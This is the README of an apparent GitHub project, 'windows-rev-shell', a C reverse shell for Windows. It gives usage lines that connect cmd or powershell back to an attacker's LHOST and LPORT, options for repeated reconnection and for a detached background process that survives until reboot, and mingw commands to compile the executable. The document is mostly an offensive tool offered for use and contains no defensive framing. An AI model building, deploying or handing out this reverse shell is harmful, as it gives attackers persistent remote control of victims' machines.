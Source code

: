 # windows-rev-shell
An advanced windows reverse shell. Allows to specify the type of shell (cmd or powershell), can be programmed to automatically attempt to reconnect and can be spawned as a detatched process to avoid blocking the terminal.
## Usage
Send the reverse shell only once. The program will wait until the connection is enstablished and will be terminated when the connection is closed.
```
shell.exe LHOST LPORT <cmd|powershell> 0
``` 
Attempt to reconnect to the specified IP. The last parameter indicates the number of seconds between attempts.
```
shell.exe LHOST LPORT <cmd|powershell> ATTEMPT_DELAY
```
The reverse shell is spawned as subprocess to keep the current terminal free. The process is disposed once the connection is closed.
```
shell.exe LHOST LPORT <cmd|powershell> 0 s
```
Spawn a reverse shell subprocess that will periodically attempt to reconnect to the host. The process is indipendent from the original shell and will continue to exist until the machine is rebooted.
```
shell.exe LHOST LPORT <cmd|powershell> ATTEMPT_DELAY s
```
## Building
32 Bit version
```
i686-w64-mingw32-gcc windows.c -o shell.exe -lws2_32
```
64 Bit version
```
x86_64-w64-mingw32-gcc windows.c -o shell.exe -lws2_32
```

